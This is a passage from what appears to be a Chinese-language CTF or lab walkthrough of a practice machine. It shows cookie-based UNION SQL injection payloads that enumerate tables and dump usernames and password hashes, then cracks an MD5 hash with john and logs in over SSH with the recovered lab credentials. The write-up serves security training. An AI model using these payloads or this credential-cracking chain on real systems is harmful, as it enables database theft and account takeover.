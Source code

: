 他会跳转到我们之前扫描到的子域名网站上

![在这里插入图片描述](https://img-blog.csdnimg.cn/cd8323071fb34a4086566bb748f887ff.png)

用burp抓一下包，看看有没有什么突破点
# 获取用户shell
由于网站是https的，所以要在浏览器网络设置里添加一下

![在这里插入图片描述](https://img-blog.csdnimg.cn/ea22b0ccd42940c4b3d81be4ac56c624.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/73f7f03bf8a04a1281ebdd5d17742d72.png)
在burp上可以看到，这里是商品的cookie，修改一下看看有没有sql注入漏洞
```
{"' and 0=1 union select 1,2,3-- -":"1"}
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/4a200ce2cf814ff8a48dab8bbaa140e2.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/6b823c7a134f4a0b9cf64a91277e9a3c.png)

说明网站存在sql注入漏洞，然后就是查表查字段了，找账号和密码

查询数据库名
```
{"' and 0=1 union select 1,database(),3-- -":"1"}
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/5250e86d43cb4a8ab7275c6fbd997f9e.png)


查表
```
{"' and 0=1 union select 1,table_name,table_schema from information_schema.tables where table_schema='checkout'-- -":"1"}
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/b58ed6185d98436f872b8f1876caa846.png)


查询用户名和密码
```
{"' and 0=1 union select 1,username,2 from checkout.user-- -":"1"}
{"' and 0=1 union select 1,password,2 from checkout.user-- -":"1"}
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/3e218696d0d44ccb8ff268cedcdda0e6.png)

![在这里插入图片描述](https://img-blog.csdnimg.cn/e66c3fc678e24fa08de3191d4624b34c.png)

用john爆破这个密码的md5值
```
echo "fc895d4eddc2fc12f995e18c865cf273" > hash
john -w=/usr/share/wordlists/rockyou.txt hash --format=Raw-MD5   //设置格式为md5
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/542dfcd6f93947fa97bef6732be3e63a.png)
```
用户名：james_mason
密码：Soleil101
```
尝试登录ssh
```
ssh james_mason@10.10.11.172
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/42bc9f872abe4a65acaf0e3adeb7fdde.png)
